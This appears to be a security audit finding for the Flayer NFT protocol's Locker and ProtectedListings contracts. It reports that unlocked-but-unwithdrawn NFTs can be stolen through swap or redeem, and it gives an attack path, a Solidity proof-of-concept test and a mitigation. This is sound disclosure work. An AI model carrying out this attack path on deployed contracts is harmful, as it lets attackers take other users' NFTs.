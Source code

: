 Large Mauve Parrot

High

# NFTs in protected listings that are unlocked but not withdrawn can be stolen

### Summary

The function [ProtectedListings::unlockProtectedListing()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287) allows to withdraw NFTs at a later date when the `_withdraw` input variable is set to `false`. NFTs unlocked but waiting to be withdrawn can be redeem or swapped, effectively stealing them. This should not be possible as NFTs listed via protected listings are not meant to be traded or sold.

### Root Cause

The functions:
- [Locker::swap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L241)
- [Locker::swapBatch()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L268)
- [Locker::redeem()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L209)

don't revert when the NFT an user is trying to get is an NFT that was in protected listing and is currently waiting to be withdrawn, ie. the functions don't revert when the variable `canWithdrawAsset[_collection][_tokenId]` is not `address(0)`.

### Internal pre-conditions

- Owner of a protected listing NFT needs to unlock an NFT by calling [ProtectedListings::unlockProtectedListing()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287) with the `_withdraw` input variable is set to `false`.

### External pre-conditions

_No response_

### Attack Path

1. Alice unlocks an NFT with rare traits via [ProtectedListings::unlockProtectedListing()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287) with `_withdraw = false`.
2. The protected listing is [deleted](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L314) but the NFT still in the locker contract.
3. The protocol will consider the NFT as a floor item.
4. Eve can steal Alice rares NFT by swapping it via a floor item NFT via [Locker::swap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L241)/[Locker::swapBatch()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L268) or redeem it by paying 1 collection token (floor price) via [Locker::redeem()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L209).

### Impact

The affected party loses an NFT that was not supposed to be sold. The attacker gains an NFT that he was not supposed to get in exchange for either a floor NFT or 1 collection token.

### PoC

To copy-paste in `ProtectedListing.t.sol`:

```solidity
function test_ExCanUnlockProtectedListing() public {
    uint _tokenId = 10;
    uint96 _tokensTaken = 0.5e18;
    address payable _owner = users[0];

    erc721a.mint(_owner, _tokenId);
    erc721a.mint(_owner, _tokenId + 1);

    vm.startPrank(_owner);
    erc721a.approve(address(protectedListings), _tokenId);
    _createProtectedListing({
        _listing: IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(_tokenId),
            listing: IProtectedListings.ProtectedListing({
                owner: _owner,
                tokenTaken: _tokensTaken,
                checkpoint: 0
            })
        })
    });

    locker.collectionToken(address(erc721a)).approve(address(protectedListings), _tokensTaken);

    protectedListings.unlockProtectedListing(address(erc721a), _tokenId, false);

    erc721a.approve(address(locker), _tokenId + 1);
    locker.swap(address(erc721a), _tokenId + 1, _tokenId);
    vm.stopPrank();
}
```

### Mitigation

The functions:
- [Locker::swap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L241)
- [Locker::swapBatch()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L268)
- [Locker::redeem()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L209)

should revert when `canWithdrawAsset[_collection][_tokenId]` is not `address(0)`.